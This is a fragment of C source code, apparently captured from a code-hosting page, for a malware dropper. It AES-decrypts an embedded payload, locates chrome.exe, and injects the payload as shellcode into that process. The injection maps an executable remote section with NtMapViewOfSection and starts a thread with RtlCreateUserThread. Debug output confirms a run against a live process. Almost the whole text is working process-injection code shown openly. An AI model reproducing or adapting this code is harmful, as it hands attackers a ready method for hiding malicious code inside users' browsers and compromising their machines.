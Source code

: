 ```c
	//printf("[Inject].NtMapViewOfSection [NTDLL.DLL] create LocalView with With READ_WRITE privileges  %s \n", &pNtMapViewOfSection);
	memcpy(pLocalView, payload, payload_len);
	//printf("[Inject].memcpy Copy shellcode %p \n", pLocalView);
	//printf("[Inject].memcpy Copy shellcode %s \n", &pLocalView);
	pNtMapViewOfSection = (NtMapViewOfSection_t) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "NtMapViewOfSection");
	pNtMapViewOfSection(hSection, hProc, &pRemoteView, NULL, NULL, NULL, (SIZE_T *) &payload_len, ViewUnmap, NULL, PAGE_EXECUTE_READ);
	//printf("[Inject].NtMapViewOfSection [NTDLL.DLL] create RemoteView View with With EXECUTE_READ privileges  %p \n", pNtMapViewOfSection);
	//printf("[Inject].NtMapViewOfSection [NTDLL.DLL] create RemoteView with With EXECUTE_READ privileges  %s \n", &pNtMapViewOfSection);
	RtlCreateUserThread_t pRtlCreateUserThread = (RtlCreateUserThread_t) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "RtlCreateUserThread");
	if (pRtlCreateUserThread == NULL)
		return -2;
	pRtlCreateUserThread(hProc, NULL, FALSE, 0, 0, 0, pRemoteView, 0, &hThread, &cid);
	printf("[Inject].RtlCreateUserThread [NTDLL.DLL]  \n\t RemoteProcess %d \n\t RemoteThread %d \n\t RemoteView %p  \n\t LocalView %p  \n", hProc, hThread, pRemoteView,  pLocalView);
	if (hThread != NULL) {
			WaitForSingleObject(hThread, 500);
			CloseHandle(hThread);
			return 0;
	}
	return -1;
}


int main(void) {   
	printf("[Main] Init Dropper \n");
	int pid = 0;
    HANDLE hProc = NULL;
	pid = FindProcess("chrome.exe");
	if (pid) {
		printf("[Main] chrome.exe PID = %d\n", pid);
		hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
						PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
						FALSE, (DWORD) pid);
		if (hProc != NULL) {
			AESDecrypt((char *) payload, payload_len, (char *) key, sizeof(key));
			printf("[Main].AESDecrypt decrypt payload \n");
			Inject(hProc, payload, payload_len);
			CloseHandle(hProc);
		}
	}
	printf("[Main] End Dropper \n");
	return 0;
}


```


[FindProcess]: Process Found chrome.exe : PID 7688